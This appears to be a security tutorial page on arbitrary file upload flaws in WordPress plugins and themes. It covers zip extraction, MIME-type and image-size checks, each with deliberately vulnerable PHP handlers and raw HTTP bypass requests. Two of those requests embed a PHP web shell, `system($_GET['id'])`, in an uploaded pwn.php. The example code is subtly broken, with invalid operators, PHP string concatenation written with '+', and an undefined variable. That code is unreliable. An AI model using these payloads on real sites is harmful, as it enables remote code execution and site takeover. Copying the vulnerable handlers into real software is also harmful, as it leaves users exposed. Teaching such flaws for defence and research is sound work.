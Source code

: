 ```yaml
---
title: Arbitrary File Upload
---
```


## Introduction

This section covers cases of possible Arbitrary File Upload on WordPress. This includes improper file input handling inside of the plugin/theme which can be used to arbitrarily upload files including `.php` files to further achieve Remote Code Execution (RCE).

## Files Input

The most common way to trace if a plugin/theme has a file handling from user input is via the `$_FILES` PHP variable. 

Another way that is most of the time missed by hackers is via [`WP_REST_Request::get_file_params`](https://developer.wordpress.org/reference/classes/wp_rest_request/get_file_params/) function. This function retrieves multipart file parameters from the body of a custom REST API route registered by the plugin/theme.


## Useful Functions

Several functions could be useful to identify a possible Arbitrary File Upload vulnerability:

- PHP related
    - [move_uploaded_file](https://www.php.net/manual/en/function.move-uploaded-file.php)
    - [file_put_contents](https://www.php.net/manual/en/function.file-put-contents)
    - [fwrite](https://www.php.net/manual/en/function.fwrite)
    - [fputs](https://www.php.net/manual/en/function.fputs.php)
    - [copy](https://www.php.net/manual/en/function.copy.php)
    - [fputcsv](https://www.php.net/manual/en/function.fputcsv.php)
    - [rename](https://www.php.net/manual/en/function.rename.php)
- WordPress related
    - [WP_Filesystem_Direct::put_contents](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/put_contents/)
    - [WP_Filesystem_Direct::move](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/move/)
    - [WP_Filesystem_Direct::copy](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/copy/)

## Compressed File Extraction

One of the processes to upload a file is through an extraction of the compressed file. The compressed itself can vary from zip, gz, tar, rar, xz, 7z, and etc. Most of the time, the developer forgets to implement a pre-check before the extraction process and it could lead to users uploading arbitrary files if the user is able to control the filename and the content of the extracted file.

Here are several functions that can be used to decompress a file:

- [`ZipArchive::extractTo`](https://www.php.net/manual/en/ziparchive.extractto.php)
- [`PharData::extractTo`](https://www.php.net/manual/en/phardata.extractto.php)
- [`unzip_file`](https://developer.wordpress.org/reference/functions/unzip_file/)

```php
add_action("wp_ajax_unpack_fonts", "unpack_fonts");

function unpack_fonts(){
    $file = $_FILES["file"];
    $ext = end(explode('.',$file_name));

    if($ext !=== "zip"){
        die();
    }
    
    $file_path = WP_CONTENT_DIR + "/uploads/" + $file["name"];
    move_uploaded_file($file["tmp_name"], $file_path);

    $zip = new ZipArchive;
    $f = $zip->open($file_path);

    if($f){
        $zip->extractTo(WP_CONTENT_DIR + "/uploads/");
        $zip->close();
    }

}
``` 

In order to bypass the above check, basically we need to prepare a valid zip file and add a malicious PHP file inside of the zip file. Below is the example of a raw HTTP request to trigger the Arbitrary File Upload:

```http
POST /wp-admin/admin-ajax.php?action=unpack_fonts HTTP/1.1
Host: localhost
Content-Length: 227
Cookie: <AUTHENTICATED_USER_COOKIE>
Connection: close

------WebKitFormBoundaryNSpLEsDZWYvEGYO1
Content-Disposition: form-data; name="file"; filename="pwn.zip"
Content-Type: application/zip

<MALICIOUS_ZIP_METADATA>
------WebKitFormBoundaryNSpLEsDZWYvEGYO1--

```

## Bypass Techniques

Some of the conditions may make the file upload process secure, however, these specific conditions can still be bypassed to achieve an Arbitrary File Upload

### MIME Type Check

Developers often only check for the file's MIME content type before performing the upload process. This check alone is not enough to prevent Arbitrary File Upload since the attacker just needs to insert or append a malicious string like PHP code into a valid acceptable file MIME type.

Several functions could be used to check for a file's MIME type. Here are several functions that can be used to check for MIME type:

- [mime_content_type](https://www.php.net/manual/en/function.mime-content-type.php)
- [exif_imagetype](https://www.php.net/manual/en/function.exif-imagetype.php)
- [finfo_file](https://www.php.net/manual/en/function.finfo-file.php)

Example of vulnerable code :

```php
add_action("wp_ajax_nopriv_upload_image_check_mime", "upload_image_check_mime");

function upload_image_check_mime(){
    $file = $_FILES["file"];
    $file_type = mime_content_type($file["tmp_name"]);
    $file_path = WP_CONTENT_DIR + "/uploads/" + $file["name"];
    
    if(in_array($file_type, get_allowed_mime_types())){
        move_uploaded_file($file["tmp_name"], $file_path);
        echo "file uploaded";
    }
    else{
        echo "file mime type not accepted";
    }

}
```

In order to bypass the above check, basically we need to prepare a valid PNG file and append a malicious PHP code on the PNG file metadata. Below is the example of a raw HTTP request to trigger the Arbitrary File Upload:

```http
POST /wp-admin/admin-ajax.php?action=upload_image_check_mime HTTP/1.1
Host: localhost
Content-Length: 227
Connection: close

------WebKitFormBoundaryNSpLEsDZWYvEGYO1
Content-Disposition: form-data; name="file"; filename="pwn.php"
Content-Type: image/png

<PNG_IMAGE_METADATA>
<?php echo system($_GET["id"]); ?>
------WebKitFormBoundaryNSpLEsDZWYvEGYO1--
```

### Image Related Check

Most of the file upload process is for an image type of file. Sometimes, developers only check for conditions that are related to an image file. One of the common functions to be used for image-related checks is [`getimagesize`](https://www.php.net/manual/en/function.getimagesize.php) function.

Example of vulnerable code :

```php
add_action("wp_ajax_nopriv_upload_image_getimagesize", "upload_image_getimagesize");

function upload_image_getimagesize(){
    $file = $_FILES["file"];
    $file_path = WP_CONTENT_DIR + "/uploads/" + $file["name"];
    $size = getimagesize($file["tmp_name"]);
    $fileContent = file_get_contents($_FILES['file']);

    if($size){
        file_put_contents($file_path, $fileContent);
        echo "image uploaded";
    }
    else{
        echo "invalid image size";
    }

}
```

In order to bypass the above check, basically we need to prepare a valid image file and append a malicious PHP code on the image file metadata. Below is the example of a raw HTTP request to trigger the Arbitrary File Upload:

```http
POST /wp-admin/admin-ajax.php?action=upload_image_getimagesize HTTP/1.1
Host: localhost
Content-Length: 227
Connection: close

------WebKitFormBoundaryNSpLEsDZWYvEGYO1
Content-Disposition: form-data; name="file"; filename="pwn.php"
Content-Type: image/jpeg

<JPEG_IMAGE_METADATA>
<?php echo system($_GET["id"]); ?>
------WebKitFormBoundaryNSpLEsDZWYvEGYO1--
```
